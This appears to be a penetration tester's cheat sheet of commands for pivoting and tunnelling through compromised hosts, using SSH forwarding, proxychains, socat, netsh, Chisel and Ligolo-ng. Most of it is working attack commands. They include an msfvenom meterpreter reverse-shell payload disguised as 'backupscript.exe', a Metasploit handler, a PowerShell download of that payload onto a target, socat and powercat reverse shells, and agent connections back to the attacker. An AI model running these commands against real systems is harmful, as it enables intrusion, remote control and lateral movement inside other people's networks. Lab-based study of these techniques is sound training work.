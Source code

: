 # delete


# Dynamic Port Forwarding with SSH and SOCKS Tunneling
# SSH Local Port Forwarding
```bash
# Forward port 3306 from 10.129.202.64 to localhost 1234
$ ssh -L 1234:localhost:3306 ubuntu@10.129.202.64

$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

* * *

# Dynamic Port Forwarding
```bash
$ ssh -D 9050 ubuntu@10.129.202.64
```

```bash
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

```bash
$ proxychains nmap -v -sn 172.16.5.1-200
```

* * *

# Remote/Reverse Port Forwarding with SSH
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

```bash
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

```bash
ubuntu@pivot$ python3 -m http.server 8123
```

```powershell
PS > Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

```bash
$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

* * *

# [Socat](https://linux.die.net/man/1/socat) Redirection
## Reverse Shell
```bash
# On pivot machine
$ socat TCP4-LISTEN:<FORWARD_PORT>,fork TCP4:<OUR_IP:OUR_PORT>
```

- Generate reverse msfvenom payload set LHOST has the pivot machine and LPORT FORWARD_PORT
- Set LHOST = 0.0.0.0 on msfconsole and LPORT = <OUR_PORT>

## Bind Shell

- Generate reverse msfvenom payload set LHOST has the pivot machine
- Set LHOST = 0.0.0.0 on msfconsole

* * *

# Port Forwarding with Windows Netsh
```
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

* * *

# SOCKS5 Tunneling with Chisel
`Find PID to kill`
```bash
$ lsof -i:8080 
```


```bash
# Local Machine
$ chisel server --socks5 --reverse`

# Remote machine
./chisel client --fingerprint f9KLbYov18MaH86fvgZhbVMyTAj4LAT6Iv8E8Nlwy0k= 10.10.15.23:8080 R:8081:127.0.0.1:445
```

* * *

# [Ligolo-ng](https://github.com/nicocha30/ligolo-ng)

[Guide](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
[Video](https://www.youtube.com/watch?v=qou7shRlX_s)


```bash
# Proxy (Attack)
$ sudo ip tuntap add user [your_username] mode tun ligolo

$ sudo ip link set ligolo up

$ ./proxy -selfcert
$ ./proxy -autocert
```



```powershell
# Target
> ./agent -connect 10.10.15.184:11601 --ignore-cert
```

```bash
# Attack
session

[Agent : ubuntu@WEB01] » ifconfig

[Agent : ubuntu@WEB01] » start
```

[IPCalculator](https://jodies.de/ipcalc)
```bash
$ sudo ip route add 172.16.4.0/23 dev ligolo
```

## Download and Upload files from and to Target
```bash
# Redirect 8080 on Target machine to our Attack 8080 to upload files to it 
» listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:8080 --tcp

# Redirect 8000 on Target machine to our Attack 8000 to download files from it 
» listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:8000 --tcp
```

## Reverse Shell Target Machine to Attack Machine
```bash
# Attack
[Agent : session] » listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp

$ nc -lnvp 10000
```


```powershell
# Target
https://github.com/besimorhino/powercat/blob/master/powercat.ps1

Copy into powershell

> powercat -c (Internal Pivot Machine Interface) -p 30000 -ep
```

## Double Pivot[https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c]
- https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/


After access to first machine or pivot, if exists another network we can also pivot to it.

First we need to put agent on pivot machine, for it we need to open a port on our attack machine and add a listener on pivot machine to redirect from port 8080 to our local port 9999.

### Upload Agent to Pivot
> Open port to pass our http server

```bash
# Attack
[Agent : session] » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:9999 --tcp
``` 

```bash
# Target
Download agent file from (Internal Pivot Machine Interface):8080
```

```bash
# Attack
$ sudo ip tuntap add user [your_username] mode tun ligoloSec

$ sudo ip link set ligoloSec up

$ sudo ip route add 172.16.5.155 dev ligoloSec

[Agent : session] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

```powershell
# Target
> ./agent -connect (Internal Pivot Machine Interface):11601 --ignore-cert
```

```bash
# Attack
[Agent : session] » start --tun ligoloSec
```


## Forward Ports from Pivot Machine to Attack Machine
```bash
$ sudo ip route add 240.0.0.1/32 dev ligolo
```
